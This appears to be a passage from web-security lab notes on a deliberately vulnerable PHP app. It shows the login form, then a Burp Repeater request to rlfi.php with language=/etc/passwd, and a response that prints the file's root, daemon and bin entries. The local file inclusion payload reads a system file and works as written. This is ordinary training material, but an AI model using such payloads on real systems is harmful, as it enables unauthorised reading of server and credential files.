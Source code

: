 ```http
        <p><label for="login">Login:</label><br />
        <input type="text" id="login" name="login" size="20" autocomplete="off"></p> 

        <p><label for="password">Password:</label><br />
        <input type="password" id="password" name="password" size="20" autocomplete="off"></p>

        <p><label for="security_level">Set the security level:</label><br />

        <select name="security_level">

            <option value="0">low</option>
            <option value="1">medium</option>
            <option value="2">high</option>

        </select>

        </p>

        <button type="submit" name="form" value="submit">Login</button>

    </form>

    <br />
    
[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /rlfi.php?language=/etc/passwd&action=go HTTP/1.1 📌
Host: 192.137.251.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=c08ejkrfo3pmlhaidv5guqqki2; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 13:03:19 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14317
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```